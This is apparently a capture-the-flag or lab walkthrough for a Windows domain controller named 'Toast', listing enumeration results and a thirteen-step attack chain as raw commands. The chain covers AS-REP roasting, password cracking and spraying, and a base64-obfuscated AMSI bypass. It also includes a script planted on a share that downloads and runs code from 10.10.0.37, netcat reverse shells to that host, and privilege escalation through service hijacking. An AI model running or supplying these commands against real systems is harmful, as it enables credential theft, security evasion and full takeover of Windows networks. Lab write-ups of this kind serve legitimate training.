








# Toast

**IP Address:** 172.31.3.8

## Enumeration
### Open Ports
| Port | State | Service | Version |
|------|-------|---------|---------|
| 135/tcp | open | msrpc | Microsoft Windows RPC  |
| 139/tcp | open | netbios-ssn | Microsoft Windows netbios-ssn  |
| 3268/tcp | open | ldap | Microsoft Windows Active Directory LDAP  |
| 3269/tcp | open | tcpwrapped |   |
| 3389/tcp | open | ms-wbt-server | Microsoft Terminal Services  |
| 389/tcp | open | ldap | Microsoft Windows Active Directory LDAP  |
| 445/tcp | open | microsoft-ds |   |
| 464/tcp | open | kpasswd5 |   |
| 49666/tcp | open | msrpc | Microsoft Windows RPC  |
| 49667/tcp | open | msrpc | Microsoft Windows RPC  |
| 49674/tcp | open | ncacn_http | Microsoft Windows RPC over HTTP 1.0 |
| 49675/tcp | open | msrpc | Microsoft Windows RPC  |
| 49678/tcp | open | msrpc | Microsoft Windows RPC  |
| 49699/tcp | open | msrpc | Microsoft Windows RPC  |
| 53/tcp | open | domain | Simple DNS Plus  |
| 593/tcp | open | ncacn_http | Microsoft Windows RPC over HTTP 1.0 |
| 5985/tcp | open | http | Microsoft HTTPAPI httpd 2.0 |
| 636/tcp | open | tcpwrapped |   |
| 88/tcp | open | kerberos-sec | Microsoft Windows Kerberos  |
| 9389/tcp | open | mc-nmf | .NET Message Framing  |
| 123/udp | open | ntp | NTP v3 |
| 137/udp | open | netbios-ns | Microsoft Windows netbios-ns  |
| 53/udp | open | domain |   |

## Exploitation
### Exploit Details ()
* **Name** - 
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

1. Enumerate the shares and find the potential username Karen. 

Commands
```
smbmap -H $ip -u guest
```


2. Add karen to users.txt and attempt to kerberoast the password. 

Commands
```
GetNPUsers.py toast.csl/ -usersfile users.txt -format john -outputfile hash
```


3. Crack the password.

Commands
```
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```


4. Connect as karen and enumerate additional users and add them to the users.txt file. 

Commands
```
rpcclient -U karen $ip
MANAGER
enumdomusers
```



5. Get users & descriptions

Commands
```
/opt/pywerview/pywerview.py get-netuser -w toast.csl -u karen -p MANAGER -t $ip | grep 'samaccountname\|description'
```



6. Spray password against all found users. 

Commands
```
crackmapexec smb -u users.txt -p W2CUvphqXB -d toast.csl $ip
```


7. Check shares with new creds

Commands
```
smbmap -u Potato -p W2CUvphqXB -H $ip
```



8. Create new ClearLogs.ps1 file and upload to share.

Code (amsibypass)
```
[Ref].Assembly.GetType($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('UwB5AHMAdABlAG0ALgBNAGEAbgBhAGcAZQBtAGUAbgB0AC4AQQB1AHQAbwBtAGEAdABpAG8AbgAuAEEAbQBzAGkAVQB0AGkAbABzAA==')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('TgBvAG4AUAB1AGIAbABpAGMALABTAHQAYQB0AGkAYwA=')))).SetValue($null,$true)
```
Commands
```
echo "IEX(iwr http://10.10.0.37/amsibypass -UseBasicParsing);" > ClearLogs.ps1
echo "IEX(iwr http://10.10.0.37/shell.ps1 -UseBasicParsing);" >> ClearLogs.ps1
smbclient //$ip/potato -U "potato"
W2CUvphqXB
put ClearLogs.ps1
quit
```



9. Catch reverse shell and upgrade it to a netcat shell. 

Commands
```
cd \
mkdir temp
cd \temp
Invoke-WebRequest http://10.10.0.37/windows/privesc/nc.exe -OutFile nc.exe
.\nc -e cmd 10.10.0.37 53
whoami
type C:\Users\Potato\Desktop\access.txt
```




10. Use Win-PS2EXE to convert the below powershell script into an exe file. 

Code(up.exe)
```PowerShell
IEX(iwr http://10.10.0.37/amsibypass -UseBasicParsing);
IEX(iwr http://10.10.0.37/shell.ps1 -UseBasicParsing);
```



11. Download the exe file at start the HellEscape service

Commands
```
cd "\Program Files\Purgatory"
Invoke-WebRequest http://10.10.0.37/up.exe -OutFile Up.exe
exit
sc start HellEscape
```


12. Catch the reverse shell and upgrade it using netcat. 

Commands
```
C:\temp\nc.exe -e cmd.exe 10.10.0.37 6666
whoami
```


13. Modify the UsoSvc to run the same binary we used before., start the service then immediately upgrade the shell. 

Commands
```
sc config UsoSvc binpath="C:\Program Files\Purgatory\Up.exe"
sc stop usosvc
sc start usosvc
C:\temp\nc.exe -e cmd.exe 10.10.0.37 6666
whoami
type C:\Users\Administrator\Desktop\system.txt
```






## Loot
```
access.txt
43a2578181729ea63fea24062400fde5
system.txt
6f58efb28444fa0408f9cd3d4b366a2c
```